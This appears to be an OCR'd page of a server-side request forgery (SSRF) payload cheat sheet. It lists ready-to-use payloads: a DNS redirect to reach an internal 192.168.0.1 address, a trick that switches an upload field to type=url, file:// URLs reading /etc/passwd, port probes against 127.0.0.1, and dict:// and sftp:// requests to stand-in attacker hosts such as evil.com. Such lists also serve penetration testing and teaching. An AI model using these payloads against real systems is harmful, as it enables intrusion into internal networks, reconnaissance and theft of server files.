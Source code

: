 ### Advanced exploit using a redirection

```markup
Create a subdomain pointing to 192.168.0.1 with DNS A record.
Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

### Advanced exploit using (type=url) while uploading a file/image

```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server

```
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP

A network protocol used for secure file transfer over secure shell

```
ssrf.php?url=sftp://evil.com:11111/
```
